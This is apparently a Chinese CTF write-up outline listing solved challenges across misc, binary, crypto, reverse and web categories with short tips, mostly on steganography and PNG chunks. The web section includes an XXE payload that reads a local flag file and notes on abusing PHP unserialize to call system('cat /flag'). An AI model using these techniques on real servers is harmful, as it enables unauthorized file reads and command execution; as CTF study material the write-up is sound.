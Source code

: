 # CTF WP (ZUENS2020)


## 安全杂项
- Misc入门指北 ✅
    - 附件PDF中的隐藏字段
- ez_LSB ✅
    - 使用StegSolve
    ![StegSolve]
- SSTV ✅
    ![SSTV]
- 掐住一只耳 ✅
    - 使用Audacity可以发现左声道的摩斯电码
    ![moss]
- Enchantment ✅
    - 使用tshark从enchantment.pcapng中找出图片-AI
    ![SGA]
    - 解开SGA银河字母[https://www.dcode.fr/standard-galactic-alphabet]
- ez_png ✅
    - 理解 PNG 文件结构:    -AI
       PNG 格式由一连串 chunk（数据块）组成，每个 chunk 包括：
      | 4字节长度 | 4字节块类型 | 数据区 | 4字节CRC |
      常见的块类型：
        IHDR：文件头信息（宽度、高度、颜色类型等）
        IDAT：图像压缩数据，可有多个
        IEND：文件尾标识
    - 使用工具查看chunk[https://www.nayuki.io/page/png-file-chunk-inspector]
    - 发现可疑块
    ![chunk]
    - 解码899 007部分 -AI
    ![Zlib]

## 从此开始
- 签到 ✅

## 二进制漏洞审计
- 0 二进制漏洞审计入门指北 ✅
- 1 ez_u64 ✅
- 2 EZtext
- fmt
- randomlock
- str_check
- syslock
- easylibc
- fmt_S

## 密码学
- Crypto入门指北 ✅
- ez_DES ✅
- baby_next ✅
- ez_square ✅
- ezlegendre ✅

## 逆向工程
- 逆向工程入门指北
- upx
- ez3
- flower
- A cup of tea
- mazegame

## Web安全与渗透测试
- 0 Web入门指北 ✅
- 01 第一章 神秘的手镯 ✅
- 02 第二章 初识金曜玄轨 ✅
- 03 第三章 向剑石！算天攻击! ✅
- 05 第五章 打上门来! ✅
- Moe笑传之猜猜爆 ✅
- 04 第四章 金曜极禁与七绝伶俐阵
- 06 第六章 藏经禁地？玄机初探!
- 07 第七章 灵媒妖穴与阴阳双生符
- 08 第八章 天行真言，星图显圣
- 10 第十章 天机符阵 ✅
    - 输入内容发现报错信息特点，使用题目已知元素
    - <?xml version="1.0"?>
    <!DOCTYPE 阵枢 [
        <!ENTITY xxe SYSTEM "file:///var/www/html/flag.txt">
    ]>
    <阵枢>
        <解析>&xxe;</解析>
    </阵枢>
    - 尝试使用 <阵枢> 作为根元素，<解析> 作为包含实体引用的子元素。-----AI

- 19 第十九章 星穹真相·补天归源 ✅
    - 观察页面发现题目是一段PHP代码
    - 发现核心漏洞：unserialize($_GET['person']) ----AI
    - 漏洞可以执行用户输入的内容
    - 在 PersonC::__Check() 方法中，绕过 flag 检查，并利用其中的 $name($age) 最终执行 system('cat /flag') ----AI



[StegSolve]:https://cdn.luogu.com.cn/upload/image_hosting/edtwi6vn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SSTV]:https://cdn.luogu.com.cn/upload/image_hosting/u4kcc7iv.png

[moss]:https://cdn.luogu.com.cn/upload/image_hosting/2k7ni7yn.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[SGA]:https://cdn.luogu.com.cn/upload/image_hosting/082kb65a.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[chunk]:https://cdn.luogu.com.cn/upload/image_hosting/bw3glndu.png?x-oss-process=image/resize,m_lfit,h_170,w_225

[Zlib]:https://cdn.luogu.com.cn/upload/image_hosting/s1by0js1.png


